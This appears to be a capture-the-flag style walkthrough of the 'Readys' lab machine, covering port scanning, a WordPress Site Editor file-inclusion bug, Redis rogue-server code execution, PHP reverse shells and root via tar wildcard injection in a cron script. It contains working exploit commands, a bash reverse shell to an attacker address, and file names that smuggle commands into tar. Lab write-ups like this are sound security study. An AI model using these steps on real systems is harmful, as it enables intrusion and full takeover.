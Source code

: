 # Readys

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.208.166                   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 15:23 +08
Nmap scan report for 192.168.208.166
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis
```

Redis is enabled on this, which is probably vulnerable somehow. I did a detailed scan too:

```
$ nmap -p 80,6379 -sC -sV --min-rate 3000 192.168.208.166        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 15:24 +08
Nmap scan report for 192.168.208.166
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Readys &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.38 (Debian)
|_http-generator: WordPress 5.7.2
6379/tcp open  redis   Redis key-value store
```

Wordpress was running on the site, so let's scan that first.

### Redis Creds Block

The Redis instance needed credentials to enumerate:

```
$ redis-cli -h 192.168.208.166
192.168.208.166:6379> INFO
NOAUTH Authentication required.
```

### Wordpress LFI --> Redis Creds

I used `wpscan` on the website and found a vulnerable plugin.&#x20;

```
$ wpscan --api-token mytoken --enumerate p,t,u --url http://192.168.208.166
<TRUNCATED>
[+] site-editor
 | Location: http://192.168.208.166/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
```

I confirmed that this works:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

So we have an LFI, and the only other exploitable thing is the Redis instance. I tried to find credentials for it using this LFI, and found it within `/etc/redis/redis.conf`:

{% code overflow="wrap" %}
```
$ curl http://192.168.208.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/redis/redis.conf > redis.conf
```
{% endcode %}

Searching for the `AUTH` string allowed me to find the password:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

We can then enumerate the database:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Redis RCE

The Redis instance is vulnerable to RCE through the module loading exploit with Redis Rogue Server:

{% embed url="https://github.com/n0b0dyCN/redis-rogue-server" %}

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

We can easily get a reverse shell using this RCE exploit:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Redis --> Alice

This user had extremely limited privileges over the file system. There was a user present, but I cold not even read the `/home` directory. There wasn't much else we could do besides try to execute PHP reverse shells using the LFI we had.

I wrote a PHP reverse shell to the `/opt/redis-cli` directory. Then, using our LFI, we can execute it:

{% code overflow="wrap" %}
```
$ curl http://192.168.208.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/phpreverseshell.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

### Cronjob --> Tar Command Injection

I ran `pspy64` on the machine to see what processes were being run.

```
2023/07/21 03:51:01 CMD: UID=0    PID=839    | /usr/sbin/CRON -f 
2023/07/21 03:51:01 CMD: UID=0    PID=840    | /bin/sh -c /usr/local/bin/backup.sh
```

`root` is running a script here:

```bash
alice@readys:~$ cat /usr/local/bin/backup.sh
#!/bin/bash

cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
```

This script checks multiple files at one go (3 in this case) Based on GTFOBins, we can use `tar` to execute commands.

{% embed url="https://gtfobins.github.io/gtfobins/tar/" %}

```bash
./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

To exploit this, we just need to create two files, one called `--checkpoint=1` and another called `--checkpoint-action=exec=bash ez.sh`.&#x20;

We can first create `ez.sh`:

```bash
echo '#!/bin/bash' > ez.sh
echo 'bash -i >& /dev/tcp/192.168.45.153/21 0>&1' >> ez.sh
chmod 777 ez.sh
```

Then, we can create the two files needed.

```bash
touch ./'--checkpoint=1'
touch ./'--checkpoint-action=exec=bash ez.sh'
```

After a while, the `root` user would execute the script and we would get a reverse shell:

![](<../../../.gitbook/assets/image (24).png>)
